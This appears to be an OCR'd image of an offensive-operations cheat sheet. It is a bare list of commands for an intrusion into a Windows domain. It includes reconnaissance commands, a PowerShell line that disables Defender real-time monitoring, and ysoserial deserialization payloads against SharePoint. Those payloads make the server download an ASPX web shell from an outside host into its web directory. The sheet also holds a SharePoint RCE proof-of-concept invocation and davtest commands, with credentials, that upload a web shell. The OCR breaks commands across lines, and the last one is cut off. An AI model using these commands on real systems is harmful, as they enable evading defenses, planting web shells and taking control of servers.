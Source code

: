 ```

## Manual Situational Awareness

whoami /all

net user kram /domain

net localgroup administrators

net share

net view 
\\
agentspecial

wmic useraccount get name,sid

query session

## AV

Get-MpComputerStatus

Set-MpPreference -DisableRealtimeMonitoring $true

## Sharpoint

ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "powershell wget -OutFile C:\inetpub\wwwroot\wss\VirtualDirectories\80
\_
vti_pvt\cmd.aspx 
http://xxx/kinetic/cmdasp.aspx
"

sp2.exe 
http://10.65.1.34/sites/operations/
 cyn password kinetic 
\\
10.65.3.90\share\SP_soap_RCE_PoC.RCE_Resource.resources

ysoserial.exe -f BinaryFormatter -g TypeConfuseDelegate -o base64 -c "powershell wget -OutFile C:\inetpub\wwwroot\wss\VirtualDirectories\80
\_
vti_pvt\cmd.aspx 
http://xxx/kinetic/cmdasp.aspx
"

## WebDAV

davtest -auth kinetic
\\
cyn:password -url 
http://corpo/dav
 

davtest -auth kinetic
\\
cyn:password -url 
http://corpo/dav
  -uploadfile cmdasp.aspx -uploadloc cmdasp.aspx

davtest -auth kinetic
\\
```